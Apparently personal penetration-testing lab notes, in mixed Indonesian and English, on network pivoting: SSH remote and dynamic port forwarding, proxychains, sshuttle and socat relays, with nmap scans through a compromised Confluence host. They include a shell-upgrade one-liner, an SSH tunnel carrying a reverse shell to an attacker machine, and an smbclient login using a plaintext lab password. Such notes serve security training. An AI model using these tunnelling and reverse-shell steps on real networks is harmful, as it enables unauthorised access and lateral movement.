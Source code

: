 Exercise:
- Revshell
- SSH Remote Port Forwarding
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 127.0.0.1:7777:10.4.198.215:4444 nox@192.168.45.168
./ssh_remote_client -i 127.0.0.1 -p 7777

### SSH Remote Dynamic Port Forwarding [SAMA KYK SEBELUMNYA TP DYNAMIC, BETTER] 
>> Beda dengan yg Dynamic local port forwarding. (kalo ini kan interact within network second pivot)
>> Kalo ini, kita jadi bisa interact with network within Confluence server (kyk first pivoting with chisel)

1) On Confluence Server
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 9998 kali@192.168.118.4 // ssh -N -R 1080 nox@192.168.45.168
```
2) Check on kali udah ada port 9998 dong di local
```bash
sudo ss -ntplu
```
3) Setup proxychains
```bash /etc/proxychains.conf
socks5 127.0.0.1 9998
```
4) Sekarang harusnya bisa akses kaki lain di Confluence (10.4.198.63/24)
> IP MULTISERVER03 ada di 10.4.50.64 (bisa kita scan nmap)
```bash
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.198.64
proxychains nmap -vvv -sT -p9000-9100 -Pn -n 10.4.198.64
```

### Using sshuttle for port forwarding.
>> Mengubah SSH Connection jadi kyk VPN. OP juga.
>> Need root privileges on the SSH client and Python3 on the SSH server

1) On Confluence Machine, kita coba port forward dulu agar bisa SSH ke database_admin
```bash
socat TCP-LISTEN:2222,fork TCP:10.4.198.215:22
```
2) On Kali Machine
```bash
sshuttle -r database_admin@192.168.198.63:2222 10.4.198.0/24 172.16.198.0/24
```
3) Sekarang kita seakan-akan udah connect VPN ke networknya Postgresql Server.
```bash
smbclient -L //172.16.198.217/ -U hr_admin --password=Welcome1234
```

# Windows Environment (Windows Tools)

## Remote Dynamic Portforwarding with ssh.exe (CUMA BISA KALO ADA GUI) (ssh remote dynamic port)
**Local dynamic port forwarding juga bisa. Commandnya sama persis dengan yg di Linux**
> On Windows versions with SSH installed, we will find **scp.exe, sftp.exe, ssh.exe**, along with other ssh-* utilities in %systemdrive%\Windows\System32\OpenSSH location by default.
